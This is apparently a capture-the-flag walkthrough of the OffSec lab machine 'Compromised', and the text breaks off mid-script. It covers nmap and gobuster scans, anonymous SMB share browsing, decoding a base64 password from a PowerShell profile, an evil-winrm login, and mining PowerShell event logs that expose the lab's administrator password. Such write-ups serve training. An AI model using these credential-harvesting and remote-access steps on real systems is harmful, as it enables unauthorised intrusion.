

# Compromised

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Easy
Community Rating: Very hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting an SMB share to discover credentials encoded within PowerShell scripts. 
Learners will decode the credentials, gain access to the target system via WinRM, and escalate privileges 
to Administrator by deobfuscating and executing PowerShell commands to retrieve a hidden password. The 
lab emphasizes SMB enumeration, PowerShell analysis, and credential exploitation.
Released: 26 Jul 2021
```

Machine link: [https://portal.offsec.com/machine/compromised-17336/overview/details](https://portal.offsec.com/machine/compromised-17336/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ export TARGET_IP=192.168.129.152

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ sudo nmap -sV -sC -p- $TARGET_IP     
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-03 11:35 CEST
Nmap scan report for 192.168.129.152
Host is up (0.034s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2021-06-01T08:00:08
|_Not valid after:  2021-08-30T08:00:08
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-09-03T09:38:30+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-03T09:37:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.52 seconds
```

We have five main services running and available:

- Microsoft IIS httpd 10.0 running on port 80 and 443
- Microsoft RPC running on port 135
- NetBIOS Session Service running on port 139
- SMB running on port 445
- WinRM running on port 5985

### Check the web site

Browsing manually to port 80 shows a default `Internet Information Services` page.



And scanning for additional files and directories with `gobuster` shows nothing.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x aspx,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.129.152
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,aspx
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/*checkout*.aspx      (Status: 400) [Size: 3420]
/*checkout*           (Status: 400) [Size: 3420]
/*docroot*            (Status: 400) [Size: 3420]
/*docroot*.aspx       (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
/*.aspx               (Status: 400) [Size: 3420]
/http%3A%2F%2Fwww     (Status: 400) [Size: 3420]
/http%3A%2F%2Fwww.aspx (Status: 400) [Size: 3420]
/http%3A              (Status: 400) [Size: 3420]
/http%3A.aspx         (Status: 400) [Size: 3420]
/q%26a                (Status: 400) [Size: 3420]
/q%26a.aspx           (Status: 400) [Size: 3420]
/**http%3a            (Status: 400) [Size: 3420]
/**http%3a.aspx       (Status: 400) [Size: 3420]
/*http%3A             (Status: 400) [Size: 3420]
/*http%3A.aspx        (Status: 400) [Size: 3420]
/**http%3A.aspx       (Status: 400) [Size: 3420]
/**http%3A            (Status: 400) [Size: 3420]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 3420]
/http%3A%2F%2Fyoutube.aspx (Status: 400) [Size: 3420]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 3420]
/http%3A%2F%2Fblogs.aspx (Status: 400) [Size: 3420]
/http%3A%2F%2Fblog    (Status: 400) [Size: 3420]
/http%3A%2F%2Fblog.aspx (Status: 400) [Size: 3420]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 3420]
/**http%3A%2F%2Fwww.aspx (Status: 400) [Size: 3420]
/s%26p                (Status: 400) [Size: 3420]
/s%26p.aspx           (Status: 400) [Size: 3420]
/%3FRID%3D2671        (Status: 400) [Size: 3420]
/%3FRID%3D2671.aspx   (Status: 400) [Size: 3420]
/devinmoore*          (Status: 400) [Size: 3420]
/devinmoore*.aspx     (Status: 400) [Size: 3420]
Progress: 654471 / 882244 (74.18%)[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/200109*.aspx         (Status: 400) [Size: 3420]
/200109*              (Status: 400) [Size: 3420]
/*sa_                 (Status: 400) [Size: 3420]
/*sa_.aspx            (Status: 400) [Size: 3420]
/*dc_                 (Status: 400) [Size: 3420]
/*dc_.aspx            (Status: 400) [Size: 3420]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 3420]
/http%3A%2F%2Fcommunity.aspx (Status: 400) [Size: 3420]
/Chamillionaire%20%26%20Paul%20Wall-%20Get%20Ya%20Mind%20Correct (Status: 400) [Size: 3420]
/Chamillionaire%20%26%20Paul%20Wall-%20Get%20Ya%20Mind%20Correct.aspx (Status: 400) [Size: 3420]
/Clinton%20Sparks%20%26%20Diddy%20-%20Dont%20Call%20It%20A%20Comeback%28RuZtY%29.aspx (Status: 400) [Size: 3420]
/Clinton%20Sparks%20%26%20Diddy%20-%20Dont%20Call%20It%20A%20Comeback%28RuZtY%29 (Status: 400) [Size: 3420]
/DJ%20Haze%20%26%20The%20Game%20-%20New%20Blood%20Series%20Pt (Status: 400) [Size: 3420]
/DJ%20Haze%20%26%20The%20Game%20-%20New%20Blood%20Series%20Pt.aspx (Status: 400) [Size: 3420]
/http%3A%2F%2Fradar   (Status: 400) [Size: 3420]
/http%3A%2F%2Fradar.aspx (Status: 400) [Size: 3420]
/q%26a2               (Status: 400) [Size: 3420]
/q%26a2.aspx          (Status: 400) [Size: 3420]
/login%3f             (Status: 400) [Size: 3420]
/login%3f.aspx        (Status: 400) [Size: 3420]
/Shakira%20Oral%20Fixation%201%20%26%202.aspx (Status: 400) [Size: 3420]
/Shakira%20Oral%20Fixation%201%20%26%202 (Status: 400) [Size: 3420]
/%22julie%20roehm%22.aspx (Status: 500) [Size: 3420]
/%22james%20kim%22.aspx (Status: 500) [Size: 3420]
/%22britney%20spears%22.aspx (Status: 500) [Size: 3420]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 3420]
/http%3A%2F%2Fjeremiahgrossman.aspx (Status: 400) [Size: 3420]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 3420]
/http%3A%2F%2Fweblog.aspx (Status: 400) [Size: 3420]
/http%3A%2F%2Fswik    (Status: 400) [Size: 3420]
/http%3A%2F%2Fswik.aspx (Status: 400) [Size: 3420]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### Enumerate the SMB service

Next, we check for available shares with `smbclient`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ smbclient -L $TARGET_IP -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts$        Disk      
        Users$          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.129.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

The `Scripts$` share looks interesting.

We connect to it and list files recursively

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ smbclient -N //$TARGET_IP/Scripts$ -c 'recurse;ls' 
  .                                   D        0  Tue Jun  1 16:57:45 2021
  ..                                  D        0  Tue Jun  1 16:57:45 2021
  defrag.ps1                          A       49  Tue Jun  1 16:57:45 2021
  fix-printservers.ps1                A      283  Tue Jun  1 16:57:45 2021
  install-features.ps1                A       81  Tue Jun  1 16:57:45 2021
  purge-temp.ps1                      A      105  Tue Jun  1 16:57:45 2021

                7706623 blocks of size 4096. 4054722 blocks available
```

Four different PowerShell scripts. Let's download them all for further analysis.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ smbclient -N //$TARGET_IP/Scripts$                
Try "help" to get a list of possible commands.
smb: \> prompt OFF
smb: \> mget *
getting file \defrag.ps1 of size 49 as defrag.ps1 (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \fix-printservers.ps1 of size 283 as fix-printservers.ps1 (1.9 KiloBytes/sec) (average 1.1 KiloBytes/sec)
getting file \install-features.ps1 of size 81 as install-features.ps1 (0.6 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \purge-temp.ps1 of size 105 as purge-temp.ps1 (0.7 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> quit
```

However, going through them shows nothing of interest such as credentials.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat defrag.ps1   
Optimize-Volume -DriveLetter C -Defrag -Verbose

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat fix-printservers.ps1 
$credential = New-Object System.Management.Automation.PSCredential ('scripting', $password)
$spooler = Get-WmiObject -Class Win32_Service -ComputerName (Read-Host -Prompt 'Server Name') -Credential $credential -Filter "Name='spooler'"
$spooler.stopservice()
$spooler.startservice()

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat install-features.ps1                                                    
Install-WindowsFeature -Name WindowsPowerShellWebAccess -IncludeManagementTools

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat purge-temp.ps1                            
rm "C:\Users\*\Appdata\Local\Temp\*" "c:\Windows\Temp\*"  -Recurse -Force -ErrorAction SilentlyContinue
```

We continue to the `Users$` share instead

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ smbclient -N //$TARGET_IP/Users$    
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Tue Jun  1 16:59:38 2021
  ..                                 DR        0  Tue Jun  1 16:59:38 2021
  .NET v4.5                           D        0  Tue Jun  1 16:59:38 2021
  .NET v4.5 Classic                   D        0  Tue Jun  1 16:59:37 2021
  Administrator                       D        0  Tue Jun  1 16:56:44 2021
  All Users                       DHSrn        0  Sat Sep 15 09:28:48 2018
  Default                           DHR        0  Fri May 28 19:47:25 2021
  Default User                    DHSrn        0  Sat Sep 15 09:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 09:16:48 2018
  Public                             DR        0  Fri May 28 12:53:18 2021
  scripting                           D        0  Tue Jul 20 17:21:03 2021

                7706623 blocks of size 4096. 4055925 blocks available
smb: \> cd scripting
smb: \scripting\> ls
  .                                   D        0  Tue Jul 20 17:21:03 2021
  ..                                  D        0  Tue Jul 20 17:21:03 2021
  3D Objects                         DR        0  Tue Jul 20 17:21:03 2021
  AppData                            DH        0  Tue Jun  1 16:57:39 2021
  Application Data                DHSrn        0  Tue Jun  1 16:57:39 2021
  Contacts                           DR        0  Tue Jul 20 17:21:03 2021
  Cookies                         DHSrn        0  Tue Jun  1 16:57:39 2021
  Desktop                            DR        0  Tue Jul 20 17:21:03 2021
  Documents                          DR        0  Tue Jul 20 17:21:03 2021
  Downloads                          DR        0  Tue Jul 20 17:21:03 2021
  Favorites                          DR        0  Tue Jul 20 17:21:03 2021
  Links                              DR        0  Tue Jul 20 17:21:03 2021
  Local Settings                  DHSrn        0  Tue Jun  1 16:57:39 2021
  Music                              DR        0  Tue Jul 20 17:21:03 2021
  My Documents                    DHSrn        0  Tue Jun  1 16:57:39 2021
  NetHood                         DHSrn        0  Tue Jun  1 16:57:39 2021
  NTUSER.DAT                        AHn   786432  Wed Sep  3 11:36:04 2025
  ntuser.dat.LOG1                   AHS        0  Tue Jun  1 16:57:39 2021
  ntuser.dat.LOG2                   AHS    73728  Tue Jun  1 16:57:39 2021
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf    AHS    65536  Tue Jun  1 16:57:43 2021
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Tue Jun  1 16:57:39 2021
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Tue Jun  1 16:57:39 2021
  ntuser.ini                         HS       20  Tue Jun  1 16:57:39 2021
  Pictures                           DR        0  Tue Jul 20 17:21:03 2021
  PrintHood                       DHSrn        0  Tue Jun  1 16:57:39 2021
  Recent                          DHSrn        0  Tue Jun  1 16:57:39 2021
  Saved Games                        DR        0  Tue Jul 20 17:21:03 2021
  Searches                           DR        0  Tue Jul 20 17:21:03 2021
  SendTo                          DHSrn        0  Tue Jun  1 16:57:39 2021
  Start Menu                      DHSrn        0  Tue Jun  1 16:57:39 2021
  Templates                       DHSrn        0  Tue Jun  1 16:57:39 2021
  Videos                             DR        0  Tue Jul 20 17:21:03 2021

                7706623 blocks of size 4096. 4055909 blocks available
smb: \scripting\> cd Desktop
smb: \scripting\Desktop\> ls
  .                                  DR        0  Tue Jul 20 17:21:03 2021
  ..                                 DR        0  Tue Jul 20 17:21:03 2021
  desktop.ini                       AHS      282  Tue Jul 20 17:21:03 2021
  local.txt                           A       34  Wed Sep  3 11:34:19 2025
  README.txt                          A      249  Tue Jun  1 16:57:45 2021

                7706623 blocks of size 4096. 4055909 blocks available
smb: \scripting\Desktop\> mget *.txt
Get file local.txt? y
NT_STATUS_ACCESS_DENIED opening remote file \scripting\Desktop\local.txt
Get file README.txt? y
getting file \scripting\Desktop\README.txt of size 249 as README.txt (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \scripting\Desktop\> cd ..
smb: \scripting\> cd Documents
smb: \scripting\Documents\> ls
  .                                  DR        0  Tue Jul 20 17:21:03 2021
  ..                                 DR        0  Tue Jul 20 17:21:03 2021
  desktop.ini                       AHS      402  Tue Jul 20 17:21:03 2021
  My Music                        DHSrn        0  Tue Jun  1 16:57:39 2021
  My Pictures                     DHSrn        0  Tue Jun  1 16:57:39 2021
  My Videos                       DHSrn        0  Tue Jun  1 16:57:39 2021
  WindowsPowerShell                   D        0  Tue Jun  1 17:00:27 2021

                7706623 blocks of size 4096. 4055909 blocks available
smb: \scripting\Documents\> quit
```

We find two files in the scripting user's desktop

- The user flag file (`local.txt`) that we were unable to download
- A `README.txt` file

Checking the `README.txt` file shows the following

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat README.txt    
Please keep your personal shares locked down. Just because it's hidden it doesn't mean it's not accessible. Also, please stop storing passwords in your scripts. Encoding is not encryption and this information can be lifted from the logs. -Security
```

So we need to keep digging further for a password.

Going back we find the scripting user's PowerShell profile

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ smbclient -N //$TARGET_IP/Users$
Try "help" to get a list of possible commands.
smb: \> cd scripting
smb: \scripting\> cd Documents
smb: \scripting\Documents\> ls
  .                                  DR        0  Tue Jul 20 17:21:03 2021
  ..                                 DR        0  Tue Jul 20 17:21:03 2021
  desktop.ini                       AHS      402  Tue Jul 20 17:21:03 2021
  My Music                        DHSrn        0  Tue Jun  1 16:57:39 2021
  My Pictures                     DHSrn        0  Tue Jun  1 16:57:39 2021
  My Videos                       DHSrn        0  Tue Jun  1 16:57:39 2021
  WindowsPowerShell                   D        0  Tue Jun  1 17:00:27 2021

                7706623 blocks of size 4096. 4055909 blocks available
smb: \scripting\Documents\> cd WindowsPowerShell\
smb: \scripting\Documents\WindowsPowerShell\> ls
  .                                   D        0  Tue Jun  1 17:00:27 2021
  ..                                  D        0  Tue Jun  1 17:00:27 2021
  profile.ps1                        AH      239  Tue Jun  1 17:00:27 2021

                7706623 blocks of size 4096. 4055909 blocks available
smb: \scripting\Documents\WindowsPowerShell\> mget *.ps1
Get file profile.ps1? y
getting file \scripting\Documents\WindowsPowerShell\profile.ps1 of size 239 as profile.ps1 (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \scripting\Documents\WindowsPowerShell\> quit
```

### Analyse the PowerShell profile

Now we analyse the PowerShell profile

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ cat profile.ps1   
$password = ConvertTo-SecureString "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgByAGkAZQBuAGQAcwBEAG8AbgB0AEwAZQB0AEYAcgBpAGUAbgBkAHMAQgBhAHMAZQA2ADQAUABhAHMAcwB3AG8AcgBkAHMA')))" -AsPlainText -Force
```

Ah, a base64-encoded password that we can decode

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ echo 'RgByAGkAZQBuAGQAcwBEAG8AbgB0AEwAZQB0AEYAcgBpAGUAbgBkAHMAQgBhAHMAZQA2ADQAUABhAHMAcwB3AG8AcgBkAHMA' | base64 -d
FriendsDontLetFriendsBase64Passwords 
```

### Connect with WinRM as the scripting user

Now that we have credentials (`scripting:FriendsDontLetFriendsBase64Passwords`) we ought to be able to connect with evil-winrm

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ evil-winrm -i $TARGET_IP -u scripting -p 'FriendsDontLetFriendsBase64Passwords'                         
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\scripting> whoami
compromised\scripting
*Evil-WinRM* PS C:\Users\scripting> 
```

And we can!

### Get the user flag

We can now get the user flag

```bash
*Evil-WinRM* PS C:\Users\scripting\Documents> cd ..
*Evil-WinRM* PS C:\Users\scripting> cd Desktop
*Evil-WinRM* PS C:\Users\scripting\Desktop> type local.txt
2<REDACTED>4
*Evil-WinRM* PS C:\Users\scripting\Desktop> 
```

### Enumeration for privilege escalation

Time for some enumeration. First we check user privileges and groups

```bash
*Evil-WinRM* PS C:\Users\scripting\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\scripting\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Event Log Readers              Alias            S-1-5-32-573 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

No special privileges and the group membership that stands out the most is `Event Log Readers`.  
With that we can examine the local event logs including PowerShell logs.

### Examine the event logs for PowerShell events

PowerShell events are available in several log files

```bash
*Evil-WinRM* PS C:\Users\scripting\Desktop> Get-WinEvent -ListLog *powershell*

LogMode   MaximumSizeInBytes RecordCount LogName
-------   ------------------ ----------- -------
Circular            15728640         178 Windows PowerShell
Circular             1052672           0 Microsoft-Windows-PowerShell-DesiredStateConfiguration-FileDownloadManager/Operational
Retain            1048985600           0 Microsoft-Windows-PowerShell/Admin
Circular            15728640         360 Microsoft-Windows-PowerShell/Operational
Circular             1052672           0 Microsoft-Windows-PowerShellWebAccess/Operational
```

The `Windows PowerShell` log is the older PowerShell log and the `Microsoft-Windows-PowerShell/Operational` log is the never one.

Let's stick to the never log file and look for event code 4104 which is scriptblock logging events.

```bash
*Evil-WinRM* PS C:\Users\scripting\Desktop> Get-WinEvent -FilterHashtable @{logname='Microsoft-Windows-PowerShell/Operational';id=4104} | Measure-Object


Count    : 294
Average  :
Sum      :
Maximum  :
Minimum  :
Property :

```

There are 294 events of that type. That is too much to go through manually.

If we assume that the credentials we are looking for also are Base64-encoded we can search for events containing `FromBase64String` like this

```bash
*Evil-WinRM* PS C:\Users\scripting\Desktop> $search = "FromBase64String"
*Evil-WinRM* PS C:\Users\scripting\Desktop> Get-WinEvent -FilterHashtable @{logname='Microsoft-Windows-PowerShell/Operational';id=4104} | Where-Object { $_.Message.Contains($search) } | Format-Table -AutoSize -Wrap


   ProviderName: Microsoft-Windows-PowerShell

TimeCreated           Id LevelDisplayName Message
-----------           -- ---------------- -------
6/1/2021 7:56:42 AM 4104 Warning          Creating Scriptblock text (1 of 1):
                                          # PG Submission - Compromised

                                          $user = 'scripting'
                                          $userpass = 'FriendsDontLetFriendsBase64Passwords'
                                          $adminpass = 'TheShellIsMightierThanTheSword!'

                                          ## Configure Base Machine Items
                                          Write-Host "Renaming Computer"
                                          Rename-Computer -NewName "compromised" -Force

                                          Write-Host "Disabling Sleep Mode"
                                          powercfg /Change monitor-timeout-ac 0
                                          powercfg /Change monitor-timeout-dc 0
                                          powercfg /Change standby-timeout-ac 0
                                          powercfg /Change standby-timeout-dc 0
                                          powercfg /Change hibernate-timeout-ac 0
                                          powercfg /Change hibernate-timeout-dc 0

                                          Write-Host "Disabling Windows Update"
                                          sc stop WaasMedicSvc
                                          sc stop wuauserv
                                          sc stop UsoSvc
                                          Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\wuauserv" -Name "Start" -Value 4

                                          Write-Host "Configuring Firewall"
                                          netsh advfirewall set allprofiles firewallpolicy 'blockinbound,blockoutbound'
                                          netsh advfirewall firewall add rule action=allow name=Inbound dir=in protocol=tcp localport='80,443'
                                          netsh advfirewall firewall add rule action=allow name=Outbound dir=out protocol=tcp remoteport='80,443'
                                          netsh advfirewall firewall add rule action=allow name=Inbound dir=in protocol=icmpv4
                                          netsh advfirewall firewall add rule action=allow name=Outbound dir=out protocol=icmpv4

                                          Write-Host "Disabling IPv6"
                                          Disable-NetAdapterBinding -Name "*" -ComponentID ms_tcpip6

                                          ## Configure User Accounts
                                          Write-Host "Setting Admin Password"
                                          net user administrator $adminpass /Y

                                          Write-Host "Creating Standard User"
                                          net user /add $user $userpass /Y
                                          net localgroup "Remote Management Users" $user /add
                                          net localgroup "Event Log Readers" $user /add

                                          Write-Host "Enabling Guest for SMB"
                                          net user guest /active:yes

                                          Write-Host "Configuring Administrator Profile"
                                          Start-Process -FilePath runas -ArgumentList "/env /profile /user:administrator cmd.exe" -Wait

                                          Write-Host "Configuring User Profile"
                                          Start-Process -FilePath runas -ArgumentList "/env /profile /user:$user cmd.exe" -Wait

                                          ## Configure SMB
                                          Write-Host "Disabling SMBv1.0"
                                          Set-SmbServerConfiguration -EnableSMB1Protocol:$false -confirm:$false

                                          Write-Host 'Creating Scripts Directory'
                                          New-Item -Path C:\Scripts -ItemType Directory

                                          Write-Host 'Creating Shares'
                                          New-SmbShare -Name 'Scripts$' -Path C:\Scripts -ReadAccess 'Everyone'
                                          New-SmbShare -Name 'Users$' -Path C:\Users -ReadAccess 'Everyone'

                                          Write-Host "Granting EVERYONE read access to C:\users\$user and C:\Scripts"
                                          icacls C:\users\$user /grant:r "Everyone:(OI)(CI)R" /t
                                          icacls C:\Scripts /grant:r "Everyone:(OI)(CI)R" /t

                                          ## Creating Scripts Directory
                                          Write-Host 'Creating Scripts Directory Files'
                                          Set-Content -Path "C:\Scripts\install-features.ps1" -Value "Install-WindowsFeature -Name WindowsPowerShellWebAccess -IncludeManagementTools"
                                          Set-Content -Path "C:\Scripts\defrag.ps1" -Value "Optimize-Volume -DriveLetter C -Defrag -Verbose"
                                          Set-Content -Path "C:\Scripts\purge-temp.ps1" -Value 'rm "C:\Users\*\Appdata\Local\Temp\*" "c:\Windows\Temp\*"  -Recurse -Force -ErrorAction SilentlyContinue'
                                          $FixPrintServers = @'
                                          $credential = New-Object System.Management.Automation.PSCredential ('scripting', $password)
                                          $spooler = Get-WmiObject -Class Win32_Service -ComputerName (Read-Host -Prompt 'Server Name') -Credential $credential -Filter "Name='spooler'"
                                          $spooler.stopservice()
                                          $spooler.startservice()
                                          '@
                                          Set-Content -Path "C:\Scripts\fix-printservers.ps1" -Value $FixPrintServers

                                          ## Creating User Files
                                          Write-Host 'Creating Users Files'
                                          Set-Content -Path "C:\users\$user\Desktop\README.txt" -Value "Please keep your personal shares locked down. Just because it's hidden it doesn't mean it's not accessible. Also, please stop storing passwords
                                          in your scripts. Encoding is not encryption and this information can be lifted from the logs. -Security"

                                          ## Web Application Install
                                          Write-Host 'Installing PowerShell Web Access'
                                          Install-WindowsFeature -Name WindowsPowerShellWebAccess -IncludeManagementTools
                                          Install-PswaWebApplication -UseTestCertificate
                                          Add-PswaAuthorizationRule -UserName .\$user -computername * -ConfigurationName Microsoft.PowerShell
                                          Add-PswaAuthorizationRule -UserName .\administrator -computername * -ConfigurationName Microsoft.PowerShell

                                          Write-Host "Enabling PS Remoting"
                                          Enable-PSRemoting -Force

                                          ## Initial Foothold
                                          Write-Host 'Staging our initial foothold component'
                                          $bytes = [System.Text.Encoding]::Unicode.GetBytes($userpass)
                                          $encodedpass = [Convert]::ToBase64String($bytes)
                                          New-Item -ItemType file -Path C:\Users\$user\Documents\WindowsPowerShell\profile.ps1 -Force
                                          $snippet = '$password = ConvertTo-SecureString "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(''<BASE64>'')))" -AsPlainText -Force'
                                          $snippet = $snippet.Replace('<BASE64>', $encodedpass)
